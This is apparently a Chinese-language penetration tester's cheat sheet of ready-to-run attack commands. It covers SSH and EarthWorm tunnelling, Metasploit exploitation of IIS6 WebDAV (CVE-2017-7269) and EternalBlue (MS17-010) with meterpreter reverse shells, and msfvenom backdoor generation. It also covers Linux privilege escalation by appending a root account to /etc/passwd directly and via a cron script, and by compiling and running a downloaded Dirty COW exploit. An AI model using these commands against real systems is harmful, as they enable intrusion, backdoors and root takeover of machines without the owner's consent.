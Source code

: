 # 渗透师笔记

## 端口转发

### 端口转发1

目标主机A：192.168.1.100

目标主机B：10.16.10.1

`xx.xx.xx.xx:$ ssh 192.168.1.100 -rroot -D7070 -CNfg`

`192.168.1.100:$ export all_proxy=socks5://127.0.0.1:7070`

`192.168.1.100:$ curl http://10.16.10.1/key.txt`


### 端口转发2

webshell：192.168.1.100

目标主机A：10.16.10.1

`xx.xx.xx.xx:$ nc -lvvv 1234`

`192.168.1.100:$ python -c 'import pty; pty.spawn("/bin/bash")'`

`shell:$ ssh xxx@xx.xx.xx.xx -CNfg -R2222:10.16.10.1:22`

### 端口转发3

 在进行端口转发的虚拟机上执行：
 
 `ssh -N -f -L 0.0.0.0:9999:0.0.0.0:80 root@192.168.53.1`

解释：在进行端口转发的虚拟机上执行之后，会在本地开启9999端口，开启9999端口的跟转发192.168.53.1的80端口是一样的效果

### 端口转发4(EarthWorm 正向)

开启socks端口：`192.16.1.101:$ ew_linux_64 -s ssocksd -l 7788`

代理访问：`8.8.8.8:$ proxychains curl http://10.16.1.100`

[内网端口转发及穿透（合集）](https://xz.aliyun.com/t/142#toc-10)

## Metasploit

### CVE-2017-7269

> 漏洞介绍：Windows Server 2003R2版本IIS6.0的WebDAV服务中的ScStoragePathFromUrl函数存在缓存区溢出漏洞，远程攻击者通过以`If: <http://`开头的长header PROPFIND请求，执行任意代码。

使用模块：`https://github.com/zcgonvh/cve-2017-7269`

![](media/15466652365352.jpg)

设置反弹 shell 的 payload ：`set payload windows/meterpreter/reverse_tcp`

![](media/15466652703757.jpg)

查看配置参数：（被攻击和本机IP）

![](media/15466652925461.jpg)

开始攻击：（成功返回shell）

![](media/15466653018615.jpg)

### msfvenom 生成后门

端口尽量使用 `4444`，因为handler模块监听的所有payload【或者不夸张地说MSF中所有payload】监听&开放端口都为4444，这样可以省去之后很多端口设置

`msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.43.100 LPORT=4444 -f exe > ~/Desktop/shell.exe`

### MS17-010

```
$ msf > use exploit/windows/smb/ms17_010_eternalblue
$ msf exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
$ msf exploit(windows/smb/ms17_010_eternalblue) > set rhost 172.16.214.140
rhost => 172.16.214.140(攻击IP)
$ msf exploit(windows/smb/ms17_010_eternalblue) > set lhost 192.168.2.130
lhost => 192.168.2.130(反射IP)
$ msf exploit(windows/smb/ms17_010_eternalblue) > exploit
```


## 提权

利用find查找具有suid权限的文件：`find /usr/bin -perm -u=s`

* 利用vim进行提权，在/etc/passwd文件中添加一个账号

```
$ openssl passwd -1 -salt abc testpassword
$1$abc$QZHPQSR42L2Df4.wdBnlP0

$ echo 'test:$1$abc$QZHPQSR42L2Df4.wdBnlP0:0:0:aa:/:/bin/sh' >> /etc/passwd
```

* 利用计划任务CRON进行提权

```
$ echo '#!/bin/bash' > backup.sh
$ echo 'echo "test:\$1\$abc\$QZHPQSR42L2Df4.wdBnlP0:0:0:aa:/:/bin/sh" >> /etc/passwd' >> backup.sh
```

### 脏牛(dirty cow)

`$ (uname -s; uname -m; uname -r; uname -v) | curl -s https://api-ksplice.oracle.com/api/1/update-list/ -L -H "Accept: text/text" --data-binary @- | grep CVE | tr ' ' '\n' | grep -o -E 'CVE-[0-9]+-[0-9]+' | sort -r -n | uniq | grep CVE-2016-5195`

> 存在gcc


```bash
$ curl https://www.exploit-db.com/exploits/40839 > exp.c

$ gcc -pthread exp.c -o exp -lcrypt

$ ./exp 
...会提示输入 firefart 账号的密码

$ su firefart

$ mv /tmp/passwd.bak /etc/passwd
...恢复账号设置

```

> 存在g++


```bash
$ curl https://www.exploit-db.com/exploits/40847 > exp.cpp

$ g++ -Wall -pedantic -O2 -std=c++11 -pthread -o exp exp.cpp -lutil

$ ./dcow -s 

<还原账号文件>

$ echo 0 > /proc/sys/vm/dirty_writeback_centisecs

$ cp /tmp/.ssh_bak /etc/passwd

$ rm /tmp/.ssh_bak

```

